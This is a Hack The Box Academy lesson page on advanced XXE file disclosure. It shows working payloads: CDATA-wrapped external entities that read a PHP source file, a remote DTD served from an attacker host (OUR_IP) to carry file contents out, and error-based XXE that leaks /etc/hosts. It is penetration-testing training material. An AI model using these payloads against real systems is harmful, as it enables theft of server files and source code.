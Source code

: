 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1206
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1206
// Section Title: Advanced File Disclosure
// Page Title: Hack The Box - Academy
// Page Number: 15
-->

# Advanced File Disclosure

**Module Name:** Web Attacks **Page Number:** 15

#### 

#### WEB ATTACKS

# Advanced File Disclosure

## Advanced Exfiltration with CDATA

``` xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

``` xml
<!ENTITY joined "%begin;%file;%end;">
```

``` shell-session
ndefstathiou@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ndefstathiou@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

``` xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

## Error Based XXE

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

``` xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

``` xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

# 

# 

#### Questions

####
